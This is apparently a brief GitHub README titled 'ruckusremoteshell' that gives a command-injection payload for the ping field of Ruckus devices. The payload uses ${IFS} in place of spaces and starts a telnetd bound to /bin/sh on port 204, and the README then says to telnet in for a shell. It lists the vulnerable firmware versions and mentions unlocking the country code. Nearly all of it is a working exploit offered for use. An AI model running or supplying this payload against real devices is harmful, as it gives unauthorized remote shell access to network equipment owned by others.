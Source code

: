 # ruckusremoteshell
ruckusremoteshell

run this in ping:
|telnetd${IFS}-p${IFS}204${IFS}-l${IFS}/bin/sh

then telnet to port 204

only for version <= 100.1.0.0.194

To unlock countrycode, try bsp command.
